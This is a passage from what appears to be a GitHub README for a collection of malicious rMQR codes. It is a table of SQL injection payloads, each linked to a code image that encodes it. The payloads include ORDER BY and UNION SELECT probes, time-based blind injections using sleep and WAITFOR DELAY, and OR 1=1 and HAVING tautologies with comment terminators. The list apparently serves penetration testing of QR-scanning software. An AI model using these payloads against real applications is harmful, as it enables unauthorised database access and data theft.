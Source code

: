 | `1-false` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/35.png) |
| `1-true` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/36.png) |
| `1*56` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/37.png) |
| `-2` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/38.png) |
| `1' ORDER BY 1--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/39.png) |
| `1' ORDER BY 2--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/40.png) |
| `1' ORDER BY 3--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/41.png) |
| `1' ORDER BY 1,2--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/42.png) |
| `1' ORDER BY 1,2,3--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/43.png) |
| `1' GROUP BY 1,2,--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/44.png) |
| `1' GROUP BY 1,2,3--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/45.png) |
| `-1' UNION SELECT 1,2,3--+` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/47.png) |
| `' UNION SELECT sum(columnname ) from tablename --` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/48.png) |
| `-1 UNION SELECT 1 INTO @,@` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/49.png) |
| `-1 UNION SELECT 1 INTO @,@,@` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/50.png) |
| `1 AND (SELECT * FROM Users) = 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/51.png) |
| `' AND MID(VERSION(),1,1) = '5';` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/52.png) |
| `%2c(select%20*%20from%20(select(sleep(10)))a)` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/54.png) |
| `';WAITFOR DELAY '0:0:30'--` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/55.png) |
| `OR 1=1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/56.png) |
| `OR 1=0` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/57.png) |
| `OR x=x` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/58.png) |
| `OR x=y` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/59.png) |
| `OR 1=1#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/60.png) |
| `OR 1=0#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/61.png) |
| `OR x=x#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/62.png) |
| `OR x=y#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/63.png) |
| ` OR 1=1-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/64.png) |
| ` OR 1=0-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/65.png) |
| ` OR x=x-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/66.png) |
| ` OR x=y-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/67.png) |
| `HAVING 1=1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/70.png) |
| `HAVING 1=0` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/71.png) |
| `HAVING 1=1#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/72.png) |
| `HAVING 1=0#` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/73.png) |
| ` HAVING 1=1-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/74.png) |
| ` HAVING 1=0-- ` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/sql-injection/data/75.png) |